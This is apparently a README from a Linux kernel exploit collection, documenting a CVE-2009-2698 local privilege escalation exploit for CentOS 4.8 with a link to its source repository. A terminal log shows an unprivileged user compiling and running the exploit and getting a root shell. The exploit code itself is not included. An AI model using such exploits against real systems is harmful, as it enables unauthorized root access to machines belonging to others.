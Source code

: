 # CVE-2009-2698
CVE-2009-2698 compiled for CentOS 4.8
> https://github.com/SecWiki/linux-kernel-exploits/tree/4dca098e7491efc83903494d7c00f24c843aae99/2009/CVE-2009-2698

# Detail

```
[hacker@localhost ~]$ id
uid=500(hacker) gid=500(hacker) groups=500(hacker) context=user_u:system_r:unconfined_t
[hacker@localhost ~]$ gcc 36108.c  -o exp
[hacker@localhost ~]$ ./exp
sh-3.00# id
uid=0(root) gid=0(root) groups=500(hacker) context=user_u:system_r:unconfined_t
sh-3.00# uname -an
Linux localhost.localdomain 2.6.9-89.EL #1 Mon Jun 22 12:19:40 EDT 2009 i686 i686 i386 GNU/Linux
sh-3.00# 
```

